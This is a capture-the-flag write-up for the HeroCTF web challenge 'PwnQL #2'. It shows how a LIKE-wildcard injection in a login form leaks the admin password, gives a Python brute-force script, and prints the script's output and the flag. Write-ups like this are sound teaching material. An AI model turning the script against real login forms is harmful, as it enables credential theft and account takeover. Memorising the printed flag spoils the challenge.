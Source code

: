 # PwnQL #2

### Category

Web

### Description

Extract the *admin*'s password from the database.

URL : http://challs.heroctf.fr:XXXX (same URL than before)

Format : **Hero{password}**<br>
Author : **xanhacks**

### Write up

So, here we are with the same vulnerability that the first PwnQL, but we need to extract the admin's password.

The goal here is to find the password according to the server response.

```
Example :

password : a% -> login error
password : b% -> login error
password : c% -> login error
password : d% -> login success

The admin's password starts with the letter 'd'.
```

Let's make a python to script which do the job for us.

```python
#!/usr/bin/env python3
from string import printable
from requests import post

URL = "http://challs.heroctf.fr:8080/index.php"

charset = printable.replace("_", "").replace("%", "")

print("flag : ", end="", flush=True)
flag = ""
for _ in range(32):
    for char in charset:
        data = {
            "username": "admin",
            "password": flag + char.strip() + "%"
        }

        req = post(URL, data=data)
    
        if "flag" in req.text:
            print(char, end="", flush=True)
            flag += char
            break
```

Execution :

```shell
$ python3 solve.py
flag : s3cur3p@ss
```

### Flag

Hero{s3cur3p@ss}
